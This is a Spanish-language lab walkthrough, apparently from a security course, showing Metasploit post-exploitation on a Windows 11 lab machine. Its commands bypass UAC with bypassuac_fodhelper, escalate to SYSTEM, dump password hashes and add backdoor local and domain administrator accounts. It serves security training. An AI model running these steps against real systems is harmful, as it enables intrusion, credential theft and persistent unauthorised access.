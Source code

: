 # Elevar privilegios en una sesión de meterpreter.
      
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***


Son muchas las técnicas que permiten ganar una shell inversa en la víctima, pero a menudo el actor de la almenaza tiene limitaciones, porque las acciones que puede ejecutar están limitadas al contexto de la credencial del usuario víctima, y no suele ser el administrador.

Otras veces el usuario tiene ***permisos de administrador***, porque es un administrador de IT, o simplemente porque se verifica una mala práctica de hacer a los usuarios administradores. No obstante esto no es una garantía, porque como bien sabemos, aun siendo administradores, si realizamos una acción delicada, ahí está la UAC para pedir confirmación. Esta petición no puede salvarla el actor de la amenaza desde una shell de ***meterpreter***. Veámoslo.

En este laboratorio veremos cómo es posible ganar la identidad del sistema (***SYSTEM/AUTHORITY***).

## Ejercicio 1: Ganar una sesión de meterpreter.

Necesitamos una shell de meterpreter sobre la víctima, así que volvemos a realizar el ***Ejercicio 1 del lab-06-C***.
   
Debe quedar tal que así.

![meterpreter](../img/lab-06-D/202209171909.png)

Comprobamos la identidad, así que en la consola de ***meterpreter*** escribimos.
```
getuid
```

Como se puede observar en la imagen, tenemos la identidad del usuario al que hemos hackeado.

![WS11\antonio](../img/lab-06-D/202209171911.png)

El módulo auxiliar ***smart_hashdump*** de ***Metasploit*** permite extraer los hashes de las cuentas de usuarios que han iniciado sesión en la víctima. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

El resultado es que no tenemos permiso para hacer eso.

![no permissions](../img/lab-06-D/202209171916.png)

***Meterpreter*** tiene un comando que intenta elevar privilegios, vamos a probarlo.
```
getsystem -t 1
```

No es posible.

![getsystem failed](../img/lab-06-D/202209171922.png)


## Ejercicio 2: Escalar privilegios y robar los hashes.

La sesión actual de ***meterpreter*** es la ***1***. Necesitamos ganar acceso al prompt de ***Metasploit***, pero no queremos cerrar la sesión. Vamos a ponerla en segundo plano. En el prompt escribimos.
```
background
```

Ahora volvemos a tener acceso a ***Metasploit***. 

Vamos a intentar saltarnos la ***UAC***. Para ello haremos uso del exploit ***bypassuac_fodhelper***, y lo haremos sobre la sesión 1 de meterpreter que tenemos disponible, es decir, un exploit sobre otro exploit.
```
use exploit/windows/local/bypassuac_fodhelper
```

A este módulo hay que indicarle que opere a través de la sesión que tenemos abierta con ***mepterpreter***, que es la ***1***.
```
set SESSION 1
```

A ver qué sucede.
```
exploit
```

Se determina que el usuario hackeado pertenece al grupo ***Administradores***. Entonces es posible saltarse la UAC.

![UAC bypass](../img/lab-06-D/202209171929.png)

En la nueva sesión de ***meterpreter***, la ***2***, vamos a intentar el escalado.
```
getsystem -t 1
```

Ahora somos el "Sistema" y por lo tanto no estamos sujetos a la UAC, que como su nombre indica es un control que se aplica a los usuarios.

![Got system](../img/lab-06-D/202209171929.png)

Comprobemos.
```
getuid
```

Ahora solo tenemos que intentar descargar los hashes. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

Como podemos ver, tenemos los hashes. Solo hay que tener suerte para reventarlos, pero ese es otro problema.

![Hashes](../img/lab-06-D/202209171940.png)


## Ejercicio 3: Crear un nuevo usuario local administrador.

Como parte del proceso de ganar acceso, y siendo el sistema (***SYSTEM/AUTHORITY***), podemos hacer lo que quereamos, por ejemplo crear un nuevo usuario.

Para ello, y a través de la sesión 2 de ***meterpreter*** invocamos una shell.
```
shell
```

En ella ejecutamos los siguientes comandos.
```
net user metasploit Pa55w.rd /add
```
```
net localgroup administrators metasploit /add
```

En la maquina ***Win 11*** puedes comprobar que efectivamente se creado el usuario.

![user created](../img/lab-06-D/202209171949.png)

Curiosidad. Si el usuario hackeado es administrador del dominio y te saltas la UAC como has aprendido, puedes crear usuarios nuevos en el dominio, que también pertenecerán al grupo de administradores del dominio, de la siguiente forma.

```
net user metasploit Pa55w.rd /add /domain

net group "Domain Admins" metasploit /add /domain
```

Aquí termina el lab. Reinicia la máquina ***Win 11*** y cierra todas las terminales de la máquina ***Kali***.


